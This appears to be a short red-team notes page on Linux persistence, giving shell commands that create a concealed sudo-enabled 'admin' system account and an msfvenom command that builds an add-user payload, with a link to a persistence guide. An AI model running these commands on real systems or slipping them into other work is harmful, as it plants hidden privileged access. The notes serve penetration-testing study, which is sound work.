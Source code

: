 # Living off the Land

## 01 - Create user account

```
$ useradd -M -N -r -s /bin/bash admin

$ usermod -aG sudo admin

$ passwd admin
```

## 02 - Generate a payload via `msfvenom`

```
$ msfvenom -p cmd/unix/adduser user=<username> pass=<password> rootmethod=<SUID | SUDO | NONE> [checksudoers=<true | false>]
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/Windows/Host Persistence/Remote Login/Create User/Malware Development/Helpers]]

### Linode

- [Linode: Linux Red Team Persistence Techniques](https://www.linode.com/docs/guides/linux-red-team-persistence-techniques/)